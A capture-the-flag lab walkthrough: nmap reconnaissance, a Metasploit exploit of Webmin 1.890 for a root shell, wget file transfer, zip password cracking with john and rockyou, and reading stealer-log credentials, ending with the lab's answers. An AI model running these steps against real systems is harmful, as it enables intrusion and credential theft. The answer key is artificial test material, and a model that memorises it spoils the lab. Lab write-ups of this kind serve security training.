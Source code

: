 # 01 - Void (Lab)


According to our security analysts' reports, our critical systems have been subjected to scans from a suspicious IP address for some time. Your mission is to identify the owner of this IP address and the associated server, and to uncover what the attackers are doing. Good luck!

Questions Walkthrough:

1. What is the email address and password for the attacker's GitHub account?

First lets perform a nmap scan against the target IP address to identify open ports and services.

```
nmap -sSVC 172.20.58.19 
```
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2e:c4:78:c6:8e:54:93:96:80:02:e7:fd:18:26:a1:4e (RSA)
|   256 0f:92:e6:7d:b7:58:9d:12:e2:2d:df:54:c6:23:0a:41 (ECDSA)
|_  256 b3:94:dd:c5:08:7c:22:3b:14:c0:01:e0:74:29:62:8c (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
It seems that the target is running a Webmin service on port 10000, which is a web-based interface for system administration. We should investigate this service further to find any vulnerabilities or misconfigurations that could be exploited.

Lets look in msfconsole for any available exploits for Webmin.

```
msfconsole
search webmin 1.8
```

![](Assets/Pasted%20image%2020251028134800.png)

Great we found this exploit for Webmin 1.890. Lets use it.


![](Assets/Pasted%20image%2020251028135041.png)


Great after running it we earned a root shell on the target machine. Lets try to awnser the first question.
```
find / -name ".git" -type d 2>/dev/null
```

![](Assets/Pasted%20image%2020251028135307.png)

Here on the .git we found a help.txt file. Lets read it.
```
cat help.txt
```

![](Assets/Pasted%20image%2020251028135608.png)

We found the email and password for the attackers github account.
Answer: timmycoat@anonymmail.hv:wTWQzVeTD3vm

Question 2: What is the MD5 hash value of the malware used by the attacker?

Lets look for any suspicious files on the system.
```
find / -iname "*malware*" -type f 2>/dev/null
```

![](Assets/Pasted%20image%2020251028135944.png)

Here we found `/root/phishing_malware.zip`
Lets get it and try to unzip it first.```
```
python3 -m http.server 8080
```
On our local machine we run a simple http server to transfer the file.
```
wget http://172.20.58.19:8080/root/phishing_malware.zip
unzip phishing_malware.zip
```

It has a password lets unzip it using zip2john to crack it.
```
zip2john phishing_malware.zip > ziphash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
```
Bingo !! We got the password.

![](Assets/Pasted%20image%2020251028141035.png)

Lets unzip it now and get the md5sum of the file.
```
unzip phishing_malware.zip
md5sum phishing_malware.pdf
```

![](Assets/Pasted%20image%2020251028141103.png)

Awnser: b82f8ba530a975e9f2acefe675fbffce


Question 3: What is the domain name that the attacker scanned with the SQL Injection scanning tool?

Lets look for any sqlmap logs on the system.
```find / -iname "*sqlmap*" -type d 2>/dev/null
```
Here we found `/root/.local/share/sqlmap/output/`

![](Assets/Pasted%20image%2020251028141341.png)

On the following folder we found a target.txt

![](Assets/Pasted%20image%2020251028141424.png)

Answer: albireobank.hv

Question 4: What is the e-mail address of the victim in the “Stealer Log” data on the server?

Lets look for any stealer logs on the system.
`ls -la /home/void/Downloads/best-log/`

![](Assets/Pasted%20image%2020251028141644.png)

Here we have a Password.txt lets read it.
```
cat /home/void/Downloads/best-log/Password.txt
```

![](Assets/Pasted%20image%2020251028141807.png)

Here we have the victim
Answer: christopher1d@zeromail.hv

Question 5: Which IP address did the attacker scan for ports and services?

Lets look for any nmap scans on the system logs.
```
ls -la /nmap/
```
Here we found `scan_results.xml`

![](Assets/Pasted%20image%2020251028142104.png)

Answer: 45.76.59.241